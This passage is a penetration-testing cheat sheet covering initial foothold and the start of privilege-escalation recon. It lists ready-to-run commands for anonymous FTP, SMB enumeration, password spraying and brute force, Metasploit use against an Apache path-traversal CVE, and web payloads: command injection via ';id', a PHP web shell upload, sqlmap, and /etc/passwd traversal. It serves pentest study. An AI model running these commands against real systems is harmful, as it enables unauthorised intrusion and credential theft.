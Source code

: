 ## Foothold

### Low-hanging fruit

|Check|Handy commands|
|---|---|
|Anonymous FTP|`ftp <target>` → `anonymous / <blank>`|
|List SMB shares|`smbclient -L //<target> -N`|
|Default logins|`nmap --script http-default-accounts -p80,8080 <target>` / `hydra -L users.txt -P passwords.txt <target> http-get /admin`|

### Search for known exploits

- `searchsploit -m 49283` (download exploit)
- `msfconsole -q` → `search CVE-2021-41773` → `use exploit/multi/http/apache_path_traversal`

### Credential attacks

- **Password reuse / spray:** `crackmapexec smb <target> -u users.txt -p "Summer2024"`
- **Brute-force:** `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target>`
- **Hash-crack:** `john --wordlist=rockyou.txt hash.txt`

### Web attacks

|Vector|Go-to snippet|
|---|---|
|Command injection|`curl -G "http://<target>/ping?ip=127.0.0.1;id"`|
|File uploads|`curl -F "file=@shell.php" http://<target>/upload.php` then browse `/uploads/shell.php`|
|SQLi|`sqlmap -u "http://<target>/item.php?id=1" --batch --current-db`|
|Other (LFI/RFI)|`curl "http://<target>/index.php?page=../../../../etc/passwd"`|
|CMS exploit|`wpscan --url http://<target> --enumerate vp --api-token <token>` then `searchsploit <vuln>`|

## Privilege Escalation

### Quick recon

```bash
whoami          # Windows: whoami /all
id              # Linux
sudo -l         # Linux
systeminfo      # Windows OS & patch level
uname -a        # Linux kernel
```


### Users / groups / env
